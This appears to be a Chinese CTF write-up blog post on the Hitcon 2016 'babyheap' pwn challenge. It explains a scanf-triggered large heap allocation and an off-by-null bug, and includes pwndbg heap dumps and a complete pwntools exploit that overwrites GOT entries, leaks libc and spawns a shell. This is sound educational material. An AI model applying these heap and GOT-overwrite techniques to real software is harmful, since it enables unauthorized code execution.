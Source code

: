 ```yaml
---
clayout: post
title:  "scanf malloc"
date:   2020-2-20
desc: ""
keywords: ""
categories: [Binary]
tags: [pwn]
icon: icon-html
---
```


#scanf malloc

glibc2.23后，scanf的缓冲区在堆中，利用scanf可以触发malloc申请比较大的堆块

## Hitcon2016-babyheap

```c
struct note{
    int len;
    char name[8];
    char *content;
};
```

add 新建note

edit 根据content指针找content，只能edit一次

```C
int edit()
{
  if ( !ptr || dword_6020A4 )
  {
    puts("bye bye");
    _exit(0);
  }
  printf("Content:");
  fuck_read(*(ptr + 2), *ptr);
  ++dword_6020A4;
  return puts("Done!");
}
```

delete free note和content

只能有一个note

```c
char *__fastcall fuck_read(char *a1, int a2)
{
  char *result; // rax
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = read(0, a1, a2);
  if ( v3 <= 0 )
  {
    puts("Error");
    _exit(-1);
  }
  result = &a1[v3];
  *result = 0;
  return result;
}
```

在输入name和content时都是调用这个函数，存在off by null

在输入name时off by null可以覆盖content指针

```c
      else if ( v3 == 4 )
      {
        printf("Really? (Y/n)", a2);
        a2 = &v4;
        __isoc99_scanf("%2s", &v4);
        if ( v4 != aN[0] )
          _exit(0);
      }
```

调用scanf

### exp

1. scanf，得到一个大chunk，在接下来覆盖后的content指针指向的位置伪造堆块

2. add，name中off by null覆盖content指针，content中伪造size

   ```c
   pwndbg> x/256gx 0x603000
   0x603000:       0x0000000000000000      0x0000000000001011
   0x603010:       0x000000000000006e      0x0000000000000000
   ......
   pwndbg> x/64gx 0x603fe0
   0x603fe0:       0x0000000000000000      0x0000000000000000
   0x603ff0:       0x0000000000000000      0x0000000000000081//fake chunk
   0x604000:       0x0000000000000000      0x0000000000000000
   0x604010:       0x0000000000000000      0x0000000000000021
   0x604020:       0x0000000000000080      0x6161616161616161//off by null
   0x604030:       0x0000000000604000      0x0000000000000091
   0x604040:       0x0000000000000000      0x0000000000000000
   0x604050:       0x0000000000000000      0x0000000000000000
   0x604060:       0x0000000000000000      0x0000000000000000
   0x604070:       0x0000000000000000      0x0000000000000041//size
   0x604080:       0x0000000000000000      0x0000000000000000
   0x604090:       0x0000000000000000      0x0000000000000000
   0x6040a0:       0x0000000000000000      0x0000000000000000
   0x6040b0:       0x0000000000000000      0x0000000000000000
   0x6040c0:       0x0000000000000000      0x0000000000020f41
   ```

3. free，note和fake chunk被free

   ```c
   fastbins
   0x20: 0x604010 ◂— 0x0
   0x30: 0x0
   0x40: 0x0
   0x50: 0x0
   0x60: 0x0
   0x70: 0x0
   0x80: 0x603ff0 ◂— 0x0
   ```

4. add，content申请到fake chunk的位置，输入content可以覆盖note中的content指针，覆盖为exit_got

5. edit，把exit改成ret，在edit中执行exit(0);直接返回，可以多次edit， 把atoi改成printf，格式化字符串泄露libc。中间遇到其他函数，需要用的就改成原来的plt，不需要的直接p64(0)

6. 此时调用atoi就是调用printf，返回值为输出的字节数，格式化字符串泄露libc

7. 输入三字节，返回值3，进edit，把atoi改成system

8. 输入/bin/sh

```python
from pwn import *
#r = remote('node3.buuoj.cn',27921)
r = process('./babyheap_hitcon_2016')
elf = ELF('./babyheap_hitcon_2016')
libc = ELF('/libc-2.23.so')

def add(size,content,name):
	r.sendlineafter('Your choice:','1')
	r.sendlineafter('Size :',str(size))
	r.sendafter('Content:',content)
	r.sendafter('Name:',name)

def free():
	r.sendlineafter('Your choice:','2')

def edit(content):
	r.sendlineafter('Your choice:','3')
	r.sendafter('Content:',content)


r.sendafter('Your choice:','4')
r.recvuntil('(Y/n)')
chunk = 'n'+'\x00'*(0x1000-1-0x20)+p64(0)+p64(0x81)+p64(0)*2
r.sendline(chunk)
add(0x80,p64(0)*7+p64(0x21),'a'*8)
free()
add(0x70,p64(0)*3+p64(0x41)+p64(0x60)*2+p64(elf.got['_exit']),'aaaa')



payload = p64(0x400c9d)
payload += p64(elf.plt['read']+6)
payload += p64(elf.plt['puts']+6)
payload += p64(0)
payload += p64(elf.plt['printf']+6)
payload += p64(0) 
payload += p64(elf.plt['read']+6)
payload += p64(0)*4
payload += p64(elf.plt['printf']+6)
edit(payload)


r.recvuntil('Your choice:')
r.send('%7$p')
r.recvuntil('0x')
leak = int(r.recvuntil('Invalid',drop=True),16)
log.success(hex(leak))
libc_base = leak-362-libc.sym['_IO_puts']
log.success(hex(libc_base))
system=libc_base+libc.sym['system']
log.success(hex(system))
r.send('333')

payload = p64(0x400c9d)
payload += p64(elf.plt['read']+6)
payload += p64(elf.plt['puts']+6)
payload += p64(0)
payload += p64(elf.plt['printf']+6)
payload += p64(0) 
payload += p64(elf.plt['read']+6)
payload += p64(0)*4
payload += p64(system)
r.send(payload)
r.send('/bin/sh\x00')
r.interactive()
```

